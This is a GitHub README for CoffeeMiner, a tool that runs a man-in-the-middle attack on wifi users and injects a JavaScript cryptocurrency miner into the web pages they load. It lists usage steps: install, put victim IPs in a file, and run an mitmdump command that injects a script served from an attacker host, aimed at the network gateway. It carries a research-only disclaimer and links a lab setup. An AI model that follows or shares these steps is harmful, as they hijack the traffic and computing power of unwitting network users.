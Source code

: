 # CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool in wifi networks

**Warning: this project is for academic/research purposes only.**

A blog post about this project can be read here: http://arnaucode.com/blog/coffeeminer-hacking-wifi-cryptocurrency-miner.html

![coffeeMiner](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-logo-small.png "coffeeMiner")

## Concept
- Performs a MITM attack to all selected victims
- Injects a js script in all the HTML pages requested by the victims
- The js script injected contains a cryptocurrency miner
- All the devices victims connected to the Lan network, will be mining for the CoffeeMiner


## Use
- install.sh
```
bash install.sh
```
- edit victims.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```

![network](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/arnaucode/coffeeMiner/blob/master/virtualbox_scenario_instructions.md



![demo](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/coffeeMiner-demo-cutted.gif "demo")
